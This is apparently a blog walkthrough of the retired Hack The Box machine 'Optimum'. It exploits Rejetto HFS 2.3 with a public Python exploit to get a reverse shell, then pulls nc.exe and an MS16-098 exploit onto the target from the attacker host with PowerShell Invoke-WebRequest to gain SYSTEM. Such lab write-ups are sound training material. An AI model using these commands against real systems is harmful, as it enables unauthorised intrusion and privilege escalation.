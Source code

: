 ```yaml
---
layout: post
title:  "HTB-Optimum"
date:   2020-02-17 00:01:57 +0000
categories: HTB-Walkthrough
---
```


![optimum](/assets/img/optimum.png)

Optimum is another OSCP-like box from the HTB 'retired' archive.


`nmap -sV -Pn --min-rate 10000 10.10.10.8 |tee -a opt.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-25 11:51 EST
Nmap scan report for 10.10.10.8
Host is up (0.092s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```


<h3>Using Searchsploit</h3>

`searchsploit hfs 2.3`

```

----------------------------------------------------- ----------------------------------
 Exploit Title                                       |  Path
                                                     | (/opt/exploitdb/)
----------------------------------------------------- ----------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary F | exploits/multiple/remote/30850.tx
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remo | exploits/windows/webapps/34852.tx
----------------------------------------------------- ----------------------------------

```

We'll check out the python script, `searchsploit -m 39161.py` will copy the exploit to the pwd.
...looks promising...

```

python 39161.py 10.10.10.8 80

```

we get user shell...to our nc listener on port 443.

```

root@kali:~/HTB/retired/optimum# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.8] 49172
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

31/01/2020  03:52 ��    <DIR>          .
31/01/2020  03:52 ��    <DIR>          ..
31/01/2020  03:21 ��    <DIR>          %TEMP%
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               3 Dir(s)  31.898.783.744 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0xxxxxxxxxxxxxxxxxxxxxx73

```

<h3>Privilege Escalation</h3>

User flag down, now we need to privesc to get the root.txt flag.

Use `powershell iwr -uri http://10.10.14.19/nc.exe -outfile .\nc.exe`
do the same for winPEAS.bat

Sometimes "iwr" won't work, and you'll have to type out the long version 'Invoke-WebRequest'.


run `winPEAS.bat > enum.txt` then send enum.txt via nc.

do `systeminfo`
copy output and paste to kali machine.

try [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

The resulting output is voluminous, so I won't paste it all here...
I selected ms16-098 and downloaded the exploit from github...

served it with `python3 -m http.server 80`
I used the IWR (Invoke-WebRequest)powershell command to move the file into my boo folder on the target.

```

C:\boo>powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe
powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe

```

So just run it....

```

C:\boo>c:\boo\b.exe
c:\boo\b.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\boo>whoami
whoami
nt authority\system

```

From here we can just grab the root.txt flag...

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxxed

```

:)



